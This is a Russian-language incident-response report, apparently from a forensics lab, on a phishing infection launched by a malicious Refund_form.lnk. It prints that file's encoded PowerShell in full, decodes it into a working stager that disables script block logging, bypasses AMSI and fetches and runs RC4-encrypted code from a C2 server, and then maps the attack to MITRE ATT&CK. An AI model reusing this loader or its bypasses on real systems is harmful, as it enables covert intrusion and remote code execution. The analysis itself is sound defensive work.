DIANQA2ADsAJABIAD0AKAAkAEgAKwAkAFMAWwAkAEkAXQApACUAMgA1ADYAOwAkAFMAWwAkAEkAXQAsACQAUwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkAXQA7ACQAXwAtAGIAWABPAFIAJABTAFsAKAAkAFMAWwAkAEkAXQArACQAUwBbACQASABdACkAJQAyADUANgBdAH0AfQA7ACQAcwBlAHIAPQAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgA3ADEAOgA4ADAAJwA7ACQAdAA9ACcALwBuAGUAdwBzAC4AcABoAHAAJwA7ACQAVwBjAC4ASABlAGEARABFAFIAUwAuAEEAZABEACgAIgBDAG8AbwBrAGkAZQAiACwAIgBzAGUAcwBzAGkAbwBuAD0AagArAGYAdgA3AFMAMQBUAEEAcwBhAG4ASABsAHIAMwBzAGIARAB1AHIAbgBzAHkAZAByADQAPQAiACkAOwAkAEQAYQBUAEEAPQAkAFcAQwAuAEQATwB3AG4ATABvAGEARABEAEEAVABhACgAJABTAGUAcgArACQAdAApADsAJABpAFYAPQAkAGQAQQB0AGEAWwAwAC4ALgAzAF0AOwAkAEQAQQBUAEEAPQAkAGQAQQB0AGEAWwA0AC4ALgAkAGQAQQB0AGEALgBsAGUATgBHAHQAaABdADsALQBqAE8ASQBuAFsAQwBoAEEAUgBbAF0AXQAoACYAIAAkAFIAIAAkAEQAYQB0AEEAIAAoACQASQBWACsAJABLACkAKQB8AEkARQBYAA==
```

Содержимое файла `1` полностью совпадает с `Updater.bat`.


### Анализ Refund_form.lnk

Изучим содержимое `Refund_form.lnk`:

```text
/C:\
Windows<
Windows
iN1s
System32
iN1s*
System32
WINDOW~1
WindowsPowerShell
v1.0
&#Ln
v1.0
	 powershell.exe
powershell.exe
B..\..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
powershell -noP -sta -w 1 -enc  SQBmACgAJABQAFMAVgBlAFIAUwBpAG8AbgBUAGEAQgBMAGUALgBQAFMAVgBFAFIAcwBpAE8ATgAuAE0AYQBqAG8AUgAgAC0ARwBFACAAMwApAHsAJABHAFAARgA9AFsAUgBFAEYAXQAuAEEAcwBTAGUAbQBCAGwAeQAuAEcARQB0AFQAeQBwAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBVAHQAaQBsAHMAJwApAC4AIgBHAEUAdABGAGkARQBgAGwAZAAiACgAJwBjAGEAYwBoAGUAZABHAHIAbwB1AHAAUABvAGwAaQBjAHkAUwBlAHQAdABpAG4AZwBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApADsASQBmACgAJABHAFAARgApAHsAJABHAFAAQwA9ACQARwBQAEYALgBHAGUAVABWAGEAbABVAEUAKAAkAG4AdQBMAEwAKQA7AEkARgAoACQARwBQAEMAWwAnAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcAXQApAHsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAwADsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCAGwAbwBjAGsASQBuAHYAbwBjAGEAdABpAG8AbgBMAG8AZwBnAGkAbgBnACcAXQA9ADAAfQAkAHYAQQBsAD0AWwBDAE8ATABMAEUAQwB0AGkATwBuAHMALgBHAEUAbgBFAHIAaQBDAC4ARABJAGMAdABJAG8ATgBBAHIAWQBbAHMAVABSAEkATgBnACwAUwBZAHMAdABlAG0ALgBPAGIAagBlAEMAVABdAF0AOgA6AG4AZQB3ACgAKQA7ACQAdgBhAGwALgBBAEQAZAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwAsADAAKQA7ACQAdgBhAGwALgBBAEQAZAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgBsAG8AYwBrAEkAbgB2AG8AYwBhAHQAaQBvAG4ATABvAGcAZwBpAG4AZwAnACwAMAApADsAJABHAFAAQwBbACcASABLAEUAWQBfAEwATwBDAEEATABfAE0AQQBDAEgASQBOAEUAXABTAG8AZgB0AHcAYQByAGUAXABQAG8AbABpAGMAaQBlAHMAXABNAGkAYwByAG8AcwBvAGYAdABcAFcAaQBuAGQAbwB3AHMAXABQAG8AdwBlAHIAUwBoAGUAbABsAFwAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAD0AJABWAEEATAB9AEUAbABzAEUAewBbAFMAQwByAEkAcABUAEIAbABvAGMASwBdAC4AIgBHAEUAdABGAGkARQBgAGwARAAiACgAJwBzAGkAZwBuAGEAdAB1AHIAZQBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApAC4AUwBFAHQAVgBBAGwAdQBFACgAJABuAFUAbABsACwAKABOAGUAdwAtAE8AYgBKAGUAQwBUACAAQwBvAGwATABFAEMAdABpAE8AbgBTAC4ARwBlAG4AZQByAGkAYwAuAEgAYQBzAGgAUwBFAHQAWwBTAHQAcgBpAG4AZwBdACkAKQB9AFsAUgBlAGYAXQAuAEEAcwBzAGUAbQBCAEwAWQAuAEcARQB0AFQAeQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpAFUAdABpAGwAcwAnACkAfAA/AHsAJABfAH0AfAAlAHsAJABfAC4ARwBFAFQARgBJAEUAbABkACgAJwBhAG0AcwBpAEkAbgBpAHQARgBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAEUAVABWAEEAbABVAEUAKAAkAG4AVQBsAEwALAAkAFQAUgBVAGUAKQB9ADsAfQA7AFsAUwB5AHMAVABlAE0ALgBOAEUAdAAuAFMARQBSAHYAaQBDAGUAUABPAGkATgB0AE0AQQBOAEEAZwBlAHIAXQA6ADoARQB4AFAARQBDAFQAMQAwADAAQwBPAG4AdABJAG4AVQBFAD0AMAA7ACQAVwBDAD0ATgBlAHcALQBPAEIAagBFAEMAdAAgAFMAWQBTAFQAZQBNAC4ATgBlAFQALgBXAEUAYgBDAGwASQBFAE4AdAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAGkAbgBkAG8AdwBzACAATgBUACAANgAuADEAOwAgAFcATwBXADYANAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIAByAHYAOgAxADEALgAwACkAIABsAGkAawBlACAARwBlAGMAawBvACcAOwAkAHcAQwAuAEgARQBhAEQARQBSAFMALgBBAEQARAAoACcAVQBzAGUAcgAtAEEAZwBlAG4AdAAnACwAJAB1ACkAOwAkAFcAQwAuAFAAcgBvAHgAWQA9AFsAUwB5AHMAVABFAE0ALgBOAEUAVAAuAFcAZQBiAFIARQBRAFUARQBzAFQAXQA6ADoARABlAEYAYQBVAGwAdABXAEUAYgBQAHIATwB4AHkAOwAkAHcAQwAuAFAAcgBvAHgAeQAuAEMAcgBlAEQAZQBuAFQASQBhAGwAUwAgAD0AIABbAFMAeQBzAHQAZQBtAC4ATgBlAFQALgBDAFIARQBEAGUAbgB0AEkAYQBsAEMAYQBDAGgAZQBdADoAOgBEAEUAZgBhAFUATABUAE4ARQB0AFcATwBSAGsAQwBSAGUARABlAE4AVABpAEEAbABTADsAJABTAGMAcgBpAHAAdAA6AFAAcgBvAHgAeQAgAD0AIAAkAHcAYwAuAFAAcgBvAHgAeQA7ACQASwA9AFsAUwB5AFMAVABlAG0ALgBUAEUAeAB0AC4ARQBOAGMATwBEAEkATgBHAF0AOgA6AEEAUwBDAEkASQAuAEcAZQBUAEIAWQB0AGUAUwAoACcAXQBoAHEAMQBqACkAYwAjADwAWQA1AEYAUgA4AFgALwBCAHYAYQB3AHsAJgA2AC4ARQAhAD4ASwB+AHoATQAlACcAKQA7ACQAUgA9AHsAJABEACwAJABLAD0AJABBAHIARwBTADsAJABTAD0AMAAuAC4AMgA1ADUAOwAwAC4ALgAyADUANQB8ACUAewAkAEoAPQAoACQASgArACQAUwBbACQAXwBdACsAJABLAFsAJABfACUAJABLAC4AQwBPAFUAbgB0AF0AKQAlADIANQA2ADsAJABTAFsAJABfAF0ALAAkAFMAWwAkAEoAXQA9ACQAUwBbACQASgBdACwAJABTAFsAJABfAF0AfQA7ACQARAB8ACUAewAkAEkAPQAoACQASQArADEAKQAlADIANQA2ADsAJABIAD0AKAAkAEgAKwAkAFMAWwAkAEkAXQApACUAMgA1ADYAOwAkAFMAWwAkAEkAXQAsACQAUwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkAXQA7ACQAXwAtAGIAeABvAFIAJABTAFsAKAAkAFMAWwAkAEkAXQArACQAUwBbACQASABdACkAJQAyADUANgBdAH0AfQA7ACQAcwBlAHIAPQAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgA3ADEAOgA4ADAAJwA7ACQAdAA9ACcALwBsAG8AZwBpAG4ALwBwAHIAbwBjAGUAcwBzAC4AcABoAHAAJwA7ACQAVwBjAC4ASABlAEEAZABlAHIAcwAuAEEAZABkACgAIgBDAG8AbwBrAGkAZQAiACwAIgBzAGUAcwBzAGkAbwBuAD0AMgB4AHQAZwBRAFgAbABMAFcAVABPADAAdAAxAFIAbAAzAG8ANAA4AEgATgA5AFQAOQBuAHMAPQAiACkAOwAkAGQAQQBUAEEAPQAkAFcAQwAuAEQATwBXAE4ATABvAEEAZABEAGEAVABBACgAJABTAEUAcgArACQAdAApADsAJABpAHYAPQAkAGQAYQB0AEEAWwAwAC4ALgAzAF0AOwAkAGQAQQBUAEEAPQAkAEQAQQBUAEEAWwA0AC4ALgAkAEQAYQB0AEEALgBsAGUATgBnAFQAaABdADsALQBqAE8ASQBuAFsAQwBoAEEAUgBbAF0AXQAoACYAIAAkAFIAIAAkAGQAYQB0AGEAIAAoACQASQBWACsAJABLACkAKQB8AEkARQBYAA==3C:\program files\windows nt\accessories\wordpad.exe
1SPS
1SPS
S-1-5-21-3583694148-1414552638-2922671848-1003
```

Раскодированное содержимое:

```powershell
If($PSVeRSionTABLe.PSVE RsiON.MajoR -GE 3){
    $GPF=[REF].AsSeMBlY.GEtTYPe('System.Management.Automation.Utils')."GEtFie`ld"('cachedGroupPolicySettings','N'+'onPublic,Static');
    If($GPF){
        $GPC=$GPF.GeVAlUe($NuLl);
        IF($GPC['ScriptB'+'lockLogging']){
            $GPC['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;
            $GPC['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0
        }
        $vAL=[ColLEctIOnS.GenErIC.DictIoNARy[sTRINg,SYStem.OBjECT]]::nEW();
        $val.ADd('EnableScriptB'+'lockLogging',0);
        $val.AdD('EnableScriptBlockInvocationLogging',0);
        $GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$vAL
    }
    ElSe{
        [ScrIptBlOCk]."GETFie`lD"('signatures','N'+'onPublic,Static').SEtValuE($nULl,(New-ObJECt ColLEctIONS.GENERIc.HaShSET[sTrInG]))
    }
    [Ref].AsseMBLY.GeTTypE('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GetFIeld('amsiInitFailed','NonPublic,Static').SeTVAlUE($nuLl,$TRue)};
};
[SySTeM.NEt.SERvicEPoiNtMANAgER]::EXPEcT100COntiNUE=0;
$WC=New-OBjECt SYSTem.NEt.WEBCLIEnt;
$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
$wC.HEADE RS.ADD('User-Agent',$u);
$WC.PrOXY=[SYstEm.NEt.WEBReQUESt]::DeFaultWEBPRoxY;
$WC.PROxy.CrEDentIaLS = [SYSTem.NEt.CreDentIAlCacHE]::DEFaulTNetwOrkCRedENtialS;
$Script:Proxy = $wc.Proxy;
$K=[SySTeM.TExT.EncODING]::AS CII.GeTByTeS(']hq1j)c#<Y5FR8X/Bvaw{&6.E!>K~zM%');
$R={
    $D,$K=$ARGs;
    $S=0..255;
    0..255|%{
        $J=($J+$S[$_]+$K[$_%$K.COU nt])%256;
        $S[$_],$S[$J]=$S[$J],$S[$_]
    };
    $D|%{
        $I=($I+1)%256;
        $H=($H+$S[$I])%256;
        $S[$I],$S[$H]=$S[$H],$S[$I];
        $_-bxor$S[($S[$I]+$S[$H])%256]
    }
};
$ser='http://192.168.1.71:80';
$t='/login/process.php';
$Wc.HeAders.Add("Cookie","session=2xtgQXlLWTO0t1Rl3o48HN9T9ns=");
$dATA=$WC.DOWnLoADDAta($SEr+$t);
$iv=$da tA[0..3];
$dATA=$DATA[4..$Data.len gTh];
-joIN[ChAR[]](& $R $data ($IV+$K))|IEX
```

Разберем основные функции скрипта:

Обход защиты powershell (отключение script block logging и antimalware scan interface):

```powershell
$GPC['ScriptBlockLogging']['EnableScriptBlockLogging']=0;
$GPC['ScriptBlockLogging']['EnableScriptBlockInvocationLogging']=0
$_.GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$True)
```

Настройка веб-клиента с маскировкой под браузер:

```powershell
$WC=New-Object System.Net.WebClient;
$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
$wC.Headers.Add('User-Agent',$u);
```

RC4 дешифровка:

```powershell
$K=[System.Text.Encoding]::ASCII.GetBytes(']hq1j)c#<Y5FR8X/Bvaw{&6.E!>K~zM%');
```

Коммуникация с C2-сервером:

```powershell
$ser='http://192.168.1.71:80';
$t='/login/process.php';
$Wc.Headers.Add("Cookie","session=2xtgQXlLWTO0t1Rl3o48HN9T9ns=");
$dATA=$WC.DownloadData($SEr+$t);
```

Выполнение payload:

```powershell
-join[char[]](& $R $data ($IV+$K))|IEX
```

Данный скрипт выполняет роль загрузчика (Initial access), его основная задача установить соединение с коммандным сервером и осуществить загрузку и установку основных вредоносных скриптов для закрепления (Persistence) и осуществления основной цели атаки. 







На основе проведенного анализа содержимого bat-файлов и `Refund_form.lnk`, можно построить схему взаимодействия с командными серверами: 

```text
Основной C2: 192.168.1.71:80
├── /login/process.php (первоначальный загрузчик)
│   └── Session: 2xtgQXlLWTO0t1Rl3o48HN9T9ns= (Refund_form.lnk)
|
├── /news.php (основной канал управления)
│   ├── Session: j+fv7S1TAsanHlr3sbDurnsyrdr4= (Updater.bat)
│   ├── Session: 7rxVVEo8U52f96c5x6guCwTuD44= (111.bat)
│   └── Session: tH82ytLJzQmZm3YbcadF82Tt0Yw= (3.bat)
└── /admin/get.php (эскалация привилегий)
    └── Session: tH82ytLJzQmZm3YbcadF82Tt0Yw= (3.bat)

Резервный C2: 192.168.1.76:81
└── /news.php (резервный канал управления)
    └── Session: APuzc325BOKA/Bo2Xi79etc64JQ= (2.bat)
```

Собранных данных вполне достаточно для формирования отчета об инциденте, я дополнительно проверял содержимое основных журналов Windows, выгрузив из побитовой копии диска с помощью autopsy содержимое папки Windows/System32/winevt/Logs и проведя анализ в eventlogexplorer, но новых фактов там обнаружить не удалось, лишь подтверждение уже найденных ранее.   





----


# Отчёт о расследовании инцидента безопасности


## 1. Характеристика инцидента

1.1. Общая картина инцидента

В результате расследования был выявлен сложный многоэтапный инцидент безопасности, начавшийся 9 марта 2019 года и продолжавшийся до 10 марта 2019 года. Атакующие использовали комбинацию социальной инженерии, вредоносных скриптов и инструментов легального ПО для получения доступа к системе, расширения привилегий и создания устойчивого присутствия в инфраструктуре. Дальнейшие сценарии использования зараженных ПК могут быть разными, от кражи или шифрования данных, до использования в DDOS атаках.


1.2. Хронология основных событий (UTC)

9 марта 2019 года:
- 14:16-14:31 - Первоначальное заражение ПК IEWIN7 (ip 192.168.1.74) через скачанный файл `Refund_form.lnk`, маскирующийся под документ о возврате средств
- 14:18-16:57 - Настройка среды атаки: установка 7-Zip, Sysinternals BGInfo, настройка автозапуска
- 16:50-16:52 - Экфильтрация данных через файлообменник SendSpace
- 16:57 - Установка персистентности через UserInitMprLogonScript

10 марта 2019 года:
- 06:45 - Создание учетной записи Support с правами администратора
- 06:47-12:30 - Активное использование учетной записи Support для запуска дополнительных скриптов
- 12:30 - Запуск PowerShell-бекдора через `Updater.bat`
- 13:03-13:08 - Использование инструментов форензики (RamCapture, FTK Imager)


1.3. Основные векторы атаки

- Социальная инженерия через поддельный документ `Refund_form.lnk`
- Использование PowerShell для выполнения вредоносного кода
- Создание дополнительных учетных записей для закрепления (persistence)
- Использование C2-серверов в локальной сети (192.168.1.71, 192.168.1.76)


## 2. Описание инцидента по матрице MITRE ATT&CK

2.1. Первоначальное проникновение (Initial Access)

Техника: T1566.001 - Phishing: Spearphishing Attachment
- Описание: Атакующие использовали поддельный файл Refund_form.lnk, который маскировался под документ о возврате средств. При открытии файл запускал закодированный PowerShell-скрипт.
- Доказательства: 
  - Файл Refund_form.lnk в папке загрузок пользователя
  - Временные метки создания файла (14:26-14:31 09.03.2019)

Техника: T1204.002 - User Execution: Malicious File
- Описание: Пользователь был обманным путем побужден к запуску поддельного файла, что привело к выполнению вредоносного кода.
- Доказательства:
  - Запуск Refund_form.lnk пользователем Wilfred
  - Цепочка выполнения: LNK -> PowerShell с вредоносным кодом


2.2. Выполнение (Execution)

Техника: T1059.001 - Command and Scripting Interpreter: PowerShell
- Описание: Атакующие активно использовали PowerShell с закодированными командами для выполнения вредоносного кода, обходя защитные механизмы.
- Доказательства:
  - Найденные BAT-файлы с закодированными PowerShell-командами
  - Процесс PowerShell.exe (PID 3672) в дампе памяти
  - Вывод консоли с закодированным payload

Техника: T1059.003 - Command and Scripting Interpreter: Windows Command Shell
- Описание: Использование командной строки для выполнения BAT-файлов и скриптов.
- Доказательства:
  - Запуск cmd.exe для выполнения Updater.bat
  - Цепочка процессов: cmd.exe -> powershell.exe


2.3. Устойчивость (Persistence)

Техника: T1136.001 - Create Account: Local Account
- Описание: Атакующие создали учетную запись Support с правами администратора для сохранения доступа к системе.
- Доказательства:
  - Запись в SAM о создании учетной записи Support 10.03.2019 06:45:48
  - Включение учетной записи в группу Administrators

Техника: T1037.005 - Logon Script: Startup
- Описание: Установка скрипта Updater.bat в UserInitMprLogonScript для автоматического выполнения при входе пользователя.
- Доказательства:
  - Запись в реестре UserInitMprLogonScript = C:\Users\Wilfred\AppData\Roaming\Identities\Updater.bat


2.4. Обход защиты (Defense Evasion)

Техника: T1562.001 - Impair Defenses: Disable Windows Event Logging
- Описание: Атакующие отключали механизмы логирования PowerShell для скрытия своей активности.
- Доказательства:
  - Код в BAT-файлах, отключающий Script Block Logging и AMSI
  - Настройки аудита в SECURITY: File System = N, Process Creation = N, Registry = N

Техника: T1027 - Obfuscated Files or Information
- Описание: Использование Base64-кодирования для скрытия PowerShell-команд.
- Доказательства:
  - Закодированные команды в BAT-файлах
  - Декодированный payload в консоли PowerShell


2.5. Доступ к учетным данным (Credential Access)

Техника: T1555 - Credentials from Password Stores
- Описание: Использование инструментов для извлечения паролей (iepv.exe - Internet Explorer Password Viewer).
- Доказательства:
  - Файл passwords.txt в RecentDocs
  - Запуск iepv.exe для извлечения учетных данных


2.6. Обнаружение (Discovery)

Техника: T1018 - Remote System Discovery
- Описание: Использование сетевых сканеров (netscan.exe) для обнаружения других систем в сети.
- Доказательства:
  - Запуск netscan.exe
  - Наличие netscan.exe в UserAssist

Техника: T1082 - System Information Discovery
- Описание: Использование Sysinternals BGInfo для сбора информации о системе.
- Доказательства:
  - Записи в реестре о принятии лицензионного соглашения BGInfo


2.7. Боковое перемещение (Lateral Movement)

Техника: T1021.001 - Remote Desktop Protocol
- Описание: Использование RDP для подключения к другим системам в сети (192.168.1.72, 192.168.1.75).
- Доказательства:
  - Записи в реестре о RDP-подключениях
  - Установка RDP Wrapper Library


2.8. Командование и управление (Command and Control)

Техника: T1071.001 - Application Layer Protocol: Web Protocols
- Описание: Использование HTTP-протокола для связи с C2-серверами.
- Доказательства:
  - Сетевые соединения с 192.168.1.71:80 и 192.168.1.76:81
  - Web-запросы к /news.php и /admin/get.php

Техника: T1573.001 - Encrypted Channel: Symmetric Cryptography
- Описание: Использование RC4-шифрования для коммуникации с C2-сервером.
- Доказательства:
  - RC4 ключ в PowerShell-скриптах: `]hq1j)c#<Y5FR8X/Bvaw{&6.E!>K~zM%`


2.9. Вынос данных (Exfiltration)

Техника: T1041 - Exfiltration Over C2 Channel
- Описание: Вынос данных через установленные каналы C2.
- Доказательства:
  - Коммуникация с C2-серверами 192.168.1.71:80, 192.168.1.76:81
  - Передача данных через зашифрованные каналы

Техника: T1567.002 - Exfiltration Over Web Service: Exfiltration to Cloud Storage
- Описание: Использование файлообменника SendSpace для выноса данных.
- Доказательства:
  - Обращения к sendspace.com/file/obeywl, sendspace.com/file/0beywl
  - Временная корреляция с запуском инструментов сбора данных


## 3. Рекомендации по ликвидации последствий инцидента и восстановлению


1. Отключение от сети компьютеров 192.168.1.74, 192.168.1.71, 192.168.1.76
2. Блокировка учетных записей Wilfred, Support
3. Удаление вредоносных файлов Updater.bat, 111.bat, 2.bat, 3.bat, Refund_form.zip и Refund_form.lnk
4. Восстановление защитных механизмов - включения аудита файловой системы, процессов и реестра, Script Block Logging для PowerShell и AMSI
5. Сканирование зараженных компьютеров (а лучше всех ПК в сети) ативирусными программами, поиск и удаление похожих вредоносных элементов
6. Обучение персонала защите от фишинговых атак  
7. Настройка мониторинга компьютеров на предмет создания учетных записей и изменения их прав, исходящих соединений на 80 и 81 порты
8. Внедрение SIEM и IPS/IDS систем